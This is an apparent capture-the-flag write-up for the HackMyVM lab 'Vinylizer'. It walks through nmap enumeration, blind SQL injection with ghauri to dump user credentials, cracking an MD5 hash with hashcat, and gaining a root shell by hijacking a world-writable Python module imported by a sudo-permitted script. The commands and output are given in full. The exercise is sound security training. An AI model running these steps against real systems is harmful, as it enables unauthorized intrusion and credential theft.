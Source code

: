 ```yaml
---
title: HackMyVM - Vinylizer
description: 
author: raylex
tags: SQLI PYTHON BLIND-SQLI
categories: CTF
date: 2024-02-02
---
```

## Enumeration
I'll begin with a Nmap scan
```shell
nmap -SCV 192.168.56.4

Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-02 09:55 WAT
Nmap scan report for 192.168.56.4
Host is up (0.0012s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 f8:e3:79:35:12:8b:e7:41:d4:27:9d:97:a5:14:b6:16 (ECDSA)
|_  256 e3:8b:15:12:6b:ff:97:57:82:e5:20:58:2d:cb:55:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.52 ((Ubuntu))
|_http-title: Vinyl Records Marketplace
|_http-server-header: Apache/2.4.52 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.57 seconds
```
### 80 - HTTP
Inputting `admin'` as the username to test for SQLi returns internal server error which suggests the target may be vulnerable to [blind sql injection](https://portswigger.net/web-security/sql-injection/blind). 
This type of SQL injection occurs when an application is vulnerable to SQL injection, but its HTTP responses do not contain the results of the relevant SQL query or the details of any database errors.
## Foothold
### Blind SQLi using Ghauri
I'll fire up [Ghauri](https://github.com/r0oth3x49/ghauri), copy the login HTTP request to a text file by intercepting the request with [Caido - A lightweight web security auditing toolkit](https://caido.io/), and begin testing  
![caido](/assets/images/vinylyzer-caido-request.png){: w="700" h="400" }  
The first thing i have to do is confirm the target is vulnerable to SQLi.  
I'll use the `--dbs` option which will perform sql injecton tests on the target and attempt to enumerate available databases, i'll also use the option `-r` to specify the request file `req.txt` i created earlier and option `-p` to specify the parameter i want to test which is username
```shell
ghauri -r req.txt -p username --dbs
```
The test is successful and i can see that the target is indeed vulnerable.  
The backend DBMS is identified to be `MySQL` 
![ghauri](/assets/images/vinylyzer-ghauri-sqli.png){: w="700" h="400" }  
Further down i can see a list of available databases
```shell
available databases [3]:
[*] performance_schema
[*] information_schema
[*] vinyl_marketplace
```
The `performance_schema` and `information_schema` databases are standard MySQL dbs, so the target db is `vinyl_marketplace`.  
I'll list the tables available on the database using option `--tables`, option `--dbms` to specify the target's DBMS and option `-D` to specify the database
```shell
ghauri -r req.txt -p username --dbms mysql -D vinyl_marketplace --tables

Database: vinyl_marketplace
[1 tables]
+-------+
| users |
+-------+
```
The target db contains a single table `users`, i'll dump the table using the option `--dump` and specify the target table with the option `-T`
```shell
ghauri -r req.txt -p username --dbms mysql -D vinyl_marketplace -T users --dump

Database: vinyl_marketplace
Table: users
[2 entries]
+----+-----------+----------------------------------+----------------+
| id | username  | password                         | login_attempts |
+----+-----------+----------------------------------+----------------+
| 1  | shopadmin | 9432522ed1a8fca612b11c3980a031f6 | 0              |
| 2  | lana      | password123                      | 0              |
+----+-----------+----------------------------------+----------------+
```
The `users` table contains 2 rows; `shopadmin` and `lana` .   
Attempt to login into the web app is successful for both users but it yields nothing.  
The shopadmin's password is an md5 hash, i'll crack this hash using [hashcat](https://hashcat.net/hashcat/) tool and [rockyou.txt](https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt) wordlist
```shell
hashcat -a 0 -m 0 "9432522ed1a8fca612b11c3980a031f6" ./rockyou.txt

Cracked: addicted2vinyl
```
>-a 0 -> straight attack mode  
>-m 0 -> md5 hash mode

I'll login as `shopadmin` via `SSH` and retrieve the user flag
```shell
shopadmin@vinylizer:~$ cat user.txt
I_******L5
```
## Privilege Escalation 
- - -
Listing the sudo privileges, i see that user `shopadmin` may run command `/usr/bin/python3 /opt/vinylizer.py` as root without password  
![sudoers](/assets/images/vinylyzer-sudoers.png){: w="700" h="400" }  
### Analysis of /opt/vinylizer.py
The program seems to be a simple command-line tool for managing a collection of vinyl records, allowing users to add, delete, list, and randomize albums and their sides. The data is stored in a JSON file `config.json`. 
The program imports two modules `json` and `random`.  I'll check where these modules are loaded from 
```python
shopadmin@vinylizer:~$ python3
Python 3.10.12 (main, Nov 20 2023, 15:14:05) [GCC 11.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import json; import random; json; random
<module 'json' from '/usr/lib/python3.10/json/__init__.py'>
<module 'random' from '/usr/lib/python3.10/random.py'>
>>>
```
`json` is loaded from `/usr/lib/python3.10/json/__init__.py` and only the root user has write access to it,  
![json.py](/assets/images/vinylyzer-json.png){: w="700" h="400" }  
`random` is loaded from `/usr/lib/python3.10/random.py` and all users have write access to it.  
![random.py](/assets/images/vinylyzer-random.png){: w="700" h="400" }  
This basically means if i  put a malicious code in `/usr/lib/python3.10/random.py` run `sudo /usr/bin/python3 /opt/vinylizer.py`, the malicious `random.py` will be executed as the root user when python attempts to import the module
### Shell as root
I'll make a backup of `/usr/lib/python3.10/random.py`
```shell
cp /usr/lib/python3.10/random.py /home/shopadmin
```
...and modify the the original script into:
```python
import pty
pty.spawn("/bin/bash")
```
Now all i have to do is run the `/opt/vinylizer.py` program with sudo  
![root-shell](/assets/images/vinylyzer-root.png){: w="700" h="400" }  
...and retrieve root flag
```shell
root@vinylizer:/home/shopadmin# cat /root/root.txt
4U*****L3
```